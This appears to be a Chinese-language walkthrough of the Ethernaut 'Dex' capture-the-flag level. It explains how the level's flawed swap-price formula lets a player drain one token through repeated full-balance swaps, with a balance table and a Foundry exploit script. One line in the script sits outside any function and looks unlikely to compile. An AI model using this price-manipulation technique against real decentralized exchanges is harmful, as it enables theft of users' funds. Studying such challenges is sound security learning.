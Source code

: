 # Level 22 - Dex
## 題目
[Dex](https://ethernaut.openzeppelin.com/level/0xB468f8e42AC0fAe675B56bc6FDa9C0563B61A52F)

### 通關條件
The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

**Quick note**
Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

### 提示
- token 的價格是如何計算的？
- `swap` 是怎麼運作的？
- 如何進行 approve ERC20 交易？
- 與合約互動的方式不只一種！
- Remix might help
- 「地址」有什麼作用？
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
    
## 解題

### token 的價格是如何計算的？
在關卡合約的 `getSwapPrice()` 中可以找到：
```solidity=32
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
公式也就是：
    $$  Amount(token2) = \frac{Amount(token1) * Balance(token2)}{Balance(token1)} $$

### `swap` 是怎麼運作的？
`swap` 就是可以讓你把身上的 Token 丟進去換成另一種 Token，換的數量就是從上面的 function 計算出來的。
```solidity=23
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```
- 24 行：確保是關卡處理的兩種特定 token
- 25 行：確保呼叫者身上有足夠的 token 進行交易
- 26 行：計算交換價格
- 27 行：執行匯入
- 28, 29 行：將交換的 token 匯出 
### 如何進行approve ERC20 交易？
在 [Level 15 - Naught Coin](https://hackmd.io/@D13/ethernaut15) 中有介紹過，使用 `approve(address _spender, uint256 _value)` 允許 _spender 可以控制你 _value 個代幣，使用後授權額度會增加，這題應該是用於授權關卡交易我們身上的 token。


---

關卡目標是要我們講某一個 token 全數換出。這題其實不是程式上有漏洞，是決定價格的公式設計有漏洞，該公式如果重複把自己身上的某種 token 全部投進去交換的話，會導致關卡內的 token 儲量最後歸零：

|step|  `getSwapPrice()`| Dex Token1 | Dex Token2 | Player Token1 | Player Token2 |
| ---| -------- | -------- | -------- |-------- |-------- |
| | init     | 100     | 100     |10     | 10     |
| 1| player token2 = 10*100/100     | 110     | 90     |0     | 20     |
| 2| player token1 = 20*110/90     | 86     | 110     |24     | 0     |
| 3| player token2 = 24*110/86     | 110     | 80     |0     | 30     |
| 4| player token1 = 30*110/80     | 69     | 110     |41     | 0     |
| 5| player token2 = 41*110/69     | 110     | 45     |0     | 65     |
| 6| player token1 = 45*110/45     | 0     | 90     |110     | 20     |

透過上表可以確認，經過六次 `swap()` 後，就可以達到關卡條件，攻擊合約如下（記得要先 `approve()` 關卡進行交易）：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/22_Dex.sol";

contract ExploitScript is Script {
    Dex level22 = Dex(payable(your_challenge_address));
    address token1 = level22.token1();
    address token2 = level22.token2();
    IERC20(token1).balanceOf(address(this));
    function run() external {
        vm.startBroadcast();
        
        level22.approve(address(level22), type(uint).max);
        level22.swap(token1, token2, 10);
        level22.swap(token2, token1, 20);
        level22.swap(token1, token2, 24);
        level22.swap(token2, token1, 30);
        level22.swap(token1, token2, 41);
        level22.swap(token2, token1, 45);

        vm.stopBroadcast();
    }
}
```